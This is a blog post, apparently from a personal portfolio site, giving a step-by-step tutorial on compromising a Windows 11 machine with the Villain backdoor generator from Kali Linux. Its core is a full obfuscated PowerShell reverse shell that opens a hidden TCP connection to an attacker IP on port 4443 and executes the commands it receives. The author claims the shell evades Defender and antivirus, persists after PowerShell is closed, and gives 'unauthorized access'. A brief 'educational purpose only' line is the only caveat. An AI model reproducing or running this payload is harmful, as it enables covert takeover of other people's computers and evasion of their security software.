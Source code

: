 ```yaml
---
title: Hacking Window 11
author: Radeel Ahmad
pubDatetime: 2022-07-05T02:05:51Z
featured: false
draft: false
tags:
  - hacking
  - window hacking
  - window 11
description: "Hacking Window 11 Using PowerShell Script"
---
```


## Requirements
- Kali Linux Machine (attacking machine)
- Windows 11 (victim machine)
- Villain (In Kali Machine)

## Let’s Start…..
Open Kali machine and open Firefox, then download the [**Villain**](https://github.com/t3l3machus/Villain).

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/1.png" alt="Wifi hacking">

Now, open Villain after downloading.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/2.png" alt="Wifi hacking">

Install the requirement for the tool using the following command.
```bash
pip3 install -r requirements.txt
```
After the installation, we start the villain.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/3.png" alt="Wifi hacking">

command: **python3 Villain.py**

## Important

The villain is a Windows and Linux backdoor generator and multi-session handler that allows users to connect with sibling servers (other machines running Villain) and share their backdoor sessions, which is handy for working as a team.

Villain has a built-in auto-obfuscate payload function to assist users bypassing AV solutions (for Windows payloads). As a result, payloads are undetected (for the time being).

## Victim side

We run the script in the Powers Shell of the victim’s system (Window 11 Pro)

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/4.png" alt="Wifi hacking">

```bash
Start-Process $PSHOME\powershell.exe -ArgumentList {$client = N''e""w-O'b'je"c"t System.Net.Sockets.TCPClient('YOUR IP',4443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (N''e'w'-O''b""je'c't -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (i''e""x $data 2>&1 | O""u''t-S''t""ring );$sendback2 = $sendback + 'PS ' + (p""w''d).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()} -WindowStyle Hidden
```


In this script enter the IP of your kali machine by using `ifconfig` command you see the IP of kali machine.

Fully updated. Windows 11. Everything is turned on for Defender protection and the firewall. Please check the screenshots below for confirmation.

<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/5.png" alt="Wifi hacking">
<img src="https://raw.githubusercontent.com/RadeelAhmad/my-portfolio/main/src/content/blog/Images/6.png" alt="Wifi hacking">

## In Kali Linux

After you enter the script, press Enter, and BOOM 🤯! Just kidding, nothing significant will happen on the victim’s machine. However, you will observe a session opening on your terminal.


Here we can see `Session ID` — `IP Address` — `OS Type` — `User` — `Status`.

Using the `shell + session ID` command allows you to gain control over the victim’s computer andexecute various commands.


We use `systeminfo` command to see the detail of victim’s machine.


WE SUCCESSFULLY EXPLOIT VULNERABILITIES WITHIN THE WINDOWS 11 PRO OPERATING SYSTEM TO GAIN UNAUTHORIZED ACCESS 😈.

## Essential Things You Must Know ⚠

- If the victim closes the PowerShell, it won’t stop the reverse shell.
- The PowerShell command remains hidden and isn’t detected by Defender and other advanced antivirus programs.

---

Thank You for reading this article. I hope that you have found this information provided to be valuable and helpful. Use it for educational purpose only…. 🙂

